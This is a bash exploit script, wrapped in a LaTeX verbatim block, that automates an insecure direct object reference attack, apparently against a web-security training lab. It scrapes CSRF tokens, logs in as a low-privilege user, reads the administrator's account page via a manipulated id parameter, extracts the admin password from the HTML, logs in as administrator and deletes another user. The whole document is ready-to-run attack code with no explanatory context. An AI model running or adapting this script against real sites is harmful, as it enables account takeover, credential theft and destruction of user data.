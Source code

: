 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=bash,caption={Command-line exploitation with curl}]
#!/bin/bash
# IDOR + Password Disclosure Exploit
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $BASE_URL"

# Phase 1: Get CSRF and login as wiener
echo "[*] Phase 1: Logging in as wiener..."
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=wiener&password=peter" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in"

# Phase 2: IDOR - Access admin account
echo "[*] Phase 2: Exploiting IDOR..."
ADMIN_PAGE=$(curl -s -b cookies.txt "$BASE_URL/my-account?id=administrator")

if echo "$ADMIN_PAGE" | grep -qi "administrator"; then
    echo "[+] Accessed administrator account!"
else
    echo "[-] IDOR failed"
    exit 1
fi

# Extract password
ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
    grep -oP 'name="password"[^>]*value="\K[^"]+' | head -1)

if [ -z "$ADMIN_PASSWORD" ]; then
    ADMIN_PASSWORD=$(echo "$ADMIN_PAGE" | \
        grep -oP 'value="[^"]+"\s*[^>]*name="password"' | \
        grep -oP 'value="\K[^"]+')
fi

echo "[+] Admin password: $ADMIN_PASSWORD"

# Phase 3: Login as admin
echo "[*] Phase 3: Logging in as administrator..."
rm -f cookies.txt
CSRF=$(curl -s -c cookies.txt "$BASE_URL/login" | \
       grep -oP 'name="csrf"\s+value="\K[^"]+')

curl -s -b cookies.txt -c cookies.txt \
    -d "csrf=$CSRF&username=administrator&password=$ADMIN_PASSWORD" \
    "$BASE_URL/login" > /dev/null

echo "[+] Logged in as administrator"

# Phase 4: Delete carlos
echo "[*] Phase 4: Deleting carlos..."
curl -s -b cookies.txt "$BASE_URL/admin/delete?username=carlos" > /dev/null

echo "[+] Carlos deleted!"

# Cleanup
rm -f cookies.txt
echo "[+] Exploit complete!"
\end{verbatim}
\end{document}
